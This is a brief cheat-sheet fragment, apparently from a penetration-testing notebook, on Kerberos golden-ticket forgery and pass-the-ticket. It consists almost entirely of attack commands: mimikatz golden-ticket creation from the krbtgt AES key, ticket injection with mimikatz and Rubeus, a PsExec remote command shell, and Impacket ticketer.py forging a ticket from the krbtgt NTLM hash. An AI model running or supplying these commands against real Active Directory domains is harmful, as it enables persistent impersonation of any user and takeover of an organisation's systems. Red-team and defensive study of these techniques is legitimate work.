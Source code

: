 <figure><img src="../../../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>

* with aesKey

{% code overflow="wrap" %}
```
mimikatz # kerberos::golden /domain:$DOMAIN/sid:$DOMAIN_SID /aes128:$KRBTGT_AES_128_KEY /user:$DOMAIN_USER /target:$SERVICE_MACHINE_HOSTNAME
```
{% endcode %}

* with Mimikatz

```
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

* [Mimikatz](https://github.com/gentilkiwi/mimikatz)
* Rubeus

```
Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

* [Rubeus](https://github.com/GhostPack/Rubeus)
* PsExec

```
PsExec.exe -accepteula \\$REMOTE_HOSTNAME cmd
```

* in Kali Linux
  * Impacket
  * with NTLM

{% code overflow="wrap" %}
```
ticketer.py -nthash $KRBTGT_NTLM_HASH -domain-sid $DOMAIN_SID -domain $DOMAIN $DOMAIN_USER
```
{% endcode %}
